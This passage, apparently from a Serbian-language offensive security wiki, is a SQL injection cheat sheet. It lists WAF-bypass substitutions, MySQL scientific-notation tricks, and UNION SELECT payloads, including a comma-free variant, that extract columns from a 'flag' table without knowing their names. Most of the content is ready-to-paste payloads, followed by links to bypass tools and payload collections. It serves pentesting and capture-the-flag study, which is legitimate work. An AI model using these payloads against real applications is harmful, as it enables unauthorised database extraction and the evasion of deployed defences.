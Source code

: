 ```
AND   -> && -> %26%26
OR    -> || -> %7C%7C
=     -> LIKE,REGEXP,RLIKE, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))
```

### Bypassiranje WAF-a pomoću naučne notacije

Možete pronaći detaljnije objašnjenje ove tehnike u [gosecure blogu](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/).\
U osnovi, možete koristiti naučnu notaciju na neočekivane načine kako biste zaobišli WAF:

```
-1' or 1.e(1) or '1'='1
-1' or 1337.1337e1 or '1'='1
' or 1.e('')=
```

### Zaobilaženje ograničenja imena kolona

Prvo, primetite da ako **izvorna upit i tabela iz koje želite izvući zastavicu imaju isti broj kolona**, možete jednostavno uraditi: `0 UNION SELECT * FROM flag`

Moguće je **pristupiti trećoj koloni tabele bez korišćenja njenog imena** koristeći upit poput sledećeg: `SELECT F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;`, pa bi u slučaju SQL ubacivanja to izgledalo ovako:

```bash
# This is an example with 3 columns that will extract the column number 3
-1 UNION SELECT 0, 0, 0, F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;
```

Ili korišćenjem **zaobilaska zareza**:

```bash
# In this case, it's extracting the third value from a 4 values table and returning 3 values in the "union select"
-1 union select * from (select 1)a join (select 2)b join (select F.3 from (select * from (select 1)q join (select 2)w join (select 3)e join (select 4)r union select * from flag limit 1 offset 5)F)c
```

Ova prevara je preuzeta sa [https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/)

### Alati za predlaganje zaobilaženja WAF-a

{% embed url="https://github.com/m4ll0k/Atlas" %}

## Ostali vodiči

* [https://sqlwiki.netspi.com/](https://sqlwiki.netspi.com)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
